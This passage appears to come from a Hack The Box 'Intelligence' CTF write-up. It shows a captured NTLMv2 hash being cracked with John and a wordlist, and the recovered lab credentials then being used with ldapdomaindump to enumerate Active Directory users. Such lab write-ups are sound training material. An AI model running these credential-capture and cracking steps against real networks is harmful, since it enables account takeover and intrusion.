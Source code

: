 ```shell
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:1355a50d6b998e79:B6584DDE7414DA386C20ED1B1F01FF37:010100000000000039BE5EA912AAD70157DFD6F6383C5F4D0000000002000800440041005600430001001E00570049004E002D005700430048004B0045003300320038005100540046000400140044004100560043002E004C004F00430041004C0003003400570049004E002D005700430048004B00450033003200380051005400460
02E0044004100560043002E004C004F00430041004C000500140044004100560043002E004C004F00430041004C000800300030000000000000000000000000200000A25F64C5E61F8AE9A198A05240CE7D5651C530BC158F39379EAD070E0D00343E0A0010000000000000000000000000000000000009003C0048005400540050002F007700650062006200790062006F0079002E0069006E00740065006C006C006900670065006E00630065002E006800740062
000000000000000000
```
As predicted, I successfully captured the credentials. I then attempted to crack the password hash for `Ted.Graves` using John:
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)
1g 0:00:00:05 DONE (2021-09-14 22:18) 0.1872g/s 2025Kp/s 2025Kc/s 2025KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
With newly captured credentials, I further enumerated the machine. The user didn’t have any additional access to SMB. However, the internal IT update associated with the PowerShell script enumerated earlier indicated that this user was likely a member of IT and has additional capabilities that `Tiffany.Molina` doesn't have. I leveraged the credentials to enumerate LDAP and dump all potentially useful information:
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ ldapdomaindump -u 'intelligence.htb\Ted.Graves' -p 'Mr.Teddy' -o ldap-dump 10.10.10.248
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(kali@kali)-[~/htb/intelligence]
└─$ cd ldap-dump

┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ ls
domain_computers_by_os.html  domain_computers.html  domain_groups.grep  domain_groups.json  domain_policy.html  domain_trusts.grep  domain_trusts.json          domain_users.grep  domain_users.json
domain_computers.grep        domain_computers.json  domain_groups.html  domain_policy.grep  domain_policy.json  domain_trusts.html  domain_users_by_group.html  domain_users.html
```
I was able to derive a complete user listing from the dump:
```shell
┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ cat domain_users.grep | awk -F"\t" '{print $3}' > users.lst

┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ cat users.lst
sAMAccountName
Ted.Graves
Laura.Lee
Jason.Patterson
Jeremy.Mora
James.Curbow
Tiffany.Molina
Jessica.Moody
Daniel.Shelton
```